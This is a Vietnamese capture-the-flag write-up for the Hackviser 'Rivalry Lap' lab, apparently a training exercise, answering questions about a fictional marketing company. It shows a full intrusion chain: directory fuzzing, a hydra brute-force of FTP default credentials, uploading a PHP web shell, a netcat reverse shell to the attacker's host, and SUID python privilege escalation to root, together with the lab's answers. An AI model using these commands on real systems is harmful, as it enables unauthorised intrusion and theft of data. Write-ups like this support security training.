 ```yaml
---
title: "Rivalry Lap"
published: 2025-09-19
description: "Bài này khá là hay."
tags: [CAPT, Hackviser]
category: Write up
licenseName: "Unlicensed"
draft: false
---
```


# **Rivalry Lap**
## How many new clients does the CEO of Orbitronix Systems, Emily Johnson, claim they have gained?
- truy cập trang web tôi thấy được giới thiệu ở gần cuối trang rằng **"CreateEdge's strategies gained us 3500 new customers in just a few months!"**
==> điều đó cho biết được rằng đáp án là **3500**

---
## What is the advertising budget of Orbitronix Systems in dollars?
- Thử dùng công cụ ffuf để quét thư mục , tôi phát hiện được 1 thư mục có tên **ftp**
```
 ffuf -ic -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e '.php' -u http://createdge.hv/FUZZ/ -t 40

     /'___\  /'___\           
   /\ \__/ /\ \__/  __  __  /\ \__/       
   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
     \ \_\ \ \_\ \ \____/  \ \_\          
      \/_/  \/_/  \/_/___/   \/_/          
v2.1.0-dev
 ________________________________________________
:: Method           : GET        
:: URL              : http://createdge.hv/FUZZ/       
:: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list     
2.3-medium.txt
:: Extensions       : .php 
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10   
:: Threads          : 40   
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 ________________________________________________
 .php                     [Status: 200, Size: 10752, Words: 3217, Lines: 272, Duration: 188ms]
 icons                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 183ms]
 assets                   [Status: 200, Size: 1501, Words: 100, Lines: 20, Duration: 182ms]
 ftp                      [Status: 200, Size: 935, Words: 62, Lines: 17, Duration: 182ms]

```
- Truy cập vào thư mục ta thấy được 1 file **clients.csv** . Tải nó về và mở ra thì có nội dung là :
```
Company Name,Advertising Budget ($)
Innovatech Ltd,50000
QuantumSoft,75000
BlueHaven Tech,60000
PinnacleByte,45000
SysTech Global,80000
Orbitronix Systems,225000
NexaCore Tech,30000
Zenithar Tech,70000
VortexaTech,55000
NovaSphere Tech,65000

```
==> đáp án là **225000**

---
## Who is the target audience of the Orbitronix Systems advertising campaign?
- Tôi quét mục tiêu bằng công cụ nmap thì phát hiện có bật cổng dịch vụ ftp trên port 21
- Sau đó tôi đã dùng công cụ hydra để quét các cặp tài khoản mật khẩu dễ bị xâm phạm 
```
┌─[✗]─[root@hackerbox]─[~]
└──╼ #hydra -f -V -I -t 4 -s 21 -C /root/Desktop/misc/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.20.22.208 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 08:52:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 66 login tries, ~17 tries per task
[DATA] attacking ftp://172.20.22.208:21/
[ATTEMPT] target 172.20.22.208 - login "anonymous" - pass "anonymous" - 1 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "rootpasswd" - 2 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "12hrs37" - 3 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp" - pass "b1uRR3" - 4 of 66 [child 3] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp_boot" - pass "ftp_boot" - 48 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "uploader" - pass "ZYPCOM" - 49 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftpuser" - pass "password" - 50 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "USER" - pass "USER" - 51 of 66 [child 3] (0/0)
[21][ftp] host: 172.20.22.208   login: ftpuser   password: password
[STATUS] attack finished for 172.20.22.208 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 08:52:36

```
==> Thấy được công cụ đã quét được tài khoản mật khẩu để đăng nhập dịch vụ ftp là **ftpuser:password**
- Đăng nhập vào dịch vụ ftp 
```
ftp 172.20.22.208
```
- Tôi đã tạo 1 file web shell ở [đây](https://github.com/flozz/p0wny-shell) , sau đó tôi tải nó lên sever web
```
put shell.php
```
- Quay trở lại shell tôi cấu hình lắng nghe trên cổng 8888
```
nc -lvp 8888
```
- Sau đó tôi truy cập file shell trên trình duyệt và chạy câu lệnh
```
www-data@debian:/# nc -e /bin/bash 172.20.22.91 8888
```
- Khi có được shell , tôi đã chạy python để có được 1 shell chỉnh chu và đẹp mắt hơn
```
python3 -c 'import os; os.system("/bin/bash")'
```
---
- Dùng find để tìm kiếm file thực thi có setuid được bật để tìm kiếm cơ hội leo thang đặc quyền .
```
find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/python3.9
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
- python3.9 có bật setuid là 1 lỗ hỏng có thể leo thang đặc quyền .
```
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
- Khi đã có root tôi truy cập vào đường dẫn /archive/detailed_client_info.csv
, nội dung của file này là:
```
Company Name,Advertising Budget ($),Campaign Objective,Campaign Success,Target Audience,Campaign Duration (Months)
Innovatech Ltd,50000,Customer Retention,Yes,Long-term Customers,6
QuantumSoft,75000,Sales Increase,No,Professionals,3
BlueHaven Tech,60000,Product Launch,Yes,Tech Enthusiasts,4
PinnacleByte,45000,Market Expansion,Yes,Global Market,5
SysTech Global,80000,Online Engagement,No,Online Shoppers,2
Orbitronix Systems,225000,Brand Awareness,Yes,Young Adults,12
NexaCore Tech,30000,Brand Awareness,No,Youth,7
Zenithar Tech,70000,Sales Increase,Yes,B2B Clients,1
VortexaTech,55000,Market Expansion,No,Local Market,8
NovaSphere Tech,65000,Product Launch,Yes,Innovators,9
```
==> đáp án cho câu hỏi này là : **Young Adults**

---

## What is the name of the secret marketing tool developed by Create Edge?

- Tiếp tục đọc nội dung của file /archive/meetings/orbitronix_system-2023-11-20.txt thấy được đoạn nội dung này :
```
Meeting Notes: Create Edge - Orbitronix Systems
Date: 2023-11-20
Location: Create Edge Headquarters

Attendees:
- Alex Carter (Create Edge, Marketing Director)
- Sophia Reynolds (Orbitronix Systems, Senior Project Manager)

Agenda:
1. Introduction and objectives of the meeting.
2. Discussion on current market trends and consumer behavior.
3. Overview of Orbitronix Systems' marketing goals.
4. Create Edge's proposed marketing strategies for Orbitronix Systems.
5. Budget considerations and timelines.
6. Q&A and next steps.

Key Points Discussed:
- Orbitronix Systems is seeking to enhance its brand visibility and customer engagement.
- Create Edge presented a comprehensive digital marketing strategy, focusing on social media and content marketing.
- Discussed the importance of SEO and online presence for Orbitronix Systems.
- Budget allocation for the campaign was tentatively agreed upon, subject to approval by Orbitronix Systems' finance department.
- Proposed timeline for the marketing campaign rollout is 12 months, starting from February 2024.

Secret and Highly Important Information:
- Alex Carter revealed that Create Edge has developed a groundbreaking AI-driven marketing analysis tool,which name is InsightNexus AI, which they plan to implement for the first time in the Orbitronix campaign.
- Sophia Reynolds mentioned a potential merger between Orbitronix Systems and another major tech player, which could significantly shift the market dynamics.

Action Items:
- Create Edge to send a detailed proposal to Orbitronix Systems by 2024-01-27.
- Orbitronix Systems to review and provide feedback on the proposal by 2024-02-03.
- Schedule a follow-up meeting to finalize the campaign details.

Meeting concluded at 3:30 PM.
```
==> Qua đoạn hội thoại trên ta thấy được đáp án chính là : **InsightNexus AI**


